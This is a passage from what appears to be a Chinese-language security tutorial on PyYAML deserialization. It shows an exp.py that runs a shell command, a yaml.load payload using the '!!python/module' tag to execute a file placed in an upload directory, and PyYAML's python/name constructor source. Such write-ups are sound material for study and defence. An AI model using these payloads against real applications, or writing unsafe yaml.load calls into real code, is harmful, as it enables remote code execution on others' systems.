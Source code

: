 所以我们在当前目录下写一个exp.py

```php
import os

os.system('whoami')
print('hacker!')

...
desktop-bt66bud\lituer
hacker!
```

当然我们放在别的目录下也是可以的（假设我们放在/upload/exp.py）、

```php
import yaml
yaml.load('!!python/module:upload.exp')
```

也是可以执行的

##### python/name标签

python/name--&gt;construct\_python\_name

源码

```py
    def construct_python_name(self, suffix, node):
        value = self.construct_scalar(node)
        if value:
            raise ConstructorError("while constructing a Python name", node.start_mark,
                    "expected the empty value, but found %r" % value, node.start_mark)
        return self.find_python_name(suffix, node.start_mark)
```

进入find\_python\_name方法

```py
    def find_python_name(self, name, mark):
        if not name:
            raise ConstructorError("while constructing a Python object", mark,
                    "expected non-empty name appended to the tag", mark)
        if '.' in name:
            module_name, object_name = name.rsplit('.', 1)
        else:
            module_name = 'builtins'
            object_name = name
        try:
            __import__(module_name)
        except ImportError as exc:
            raise ConstructorError("while constructing a Python object", mark,
                    "cannot find module %r (%s)" % (module_name, exc), mark)
        module = sys.modules[module_name]
        if not hasattr(module, object_name):
            raise ConstructorError("while constructing a Python object", mark,
                    "cannot find %r in the module %r"
                    % (object_name, module.__name__), mark)
        return getattr(module, object_name)
```
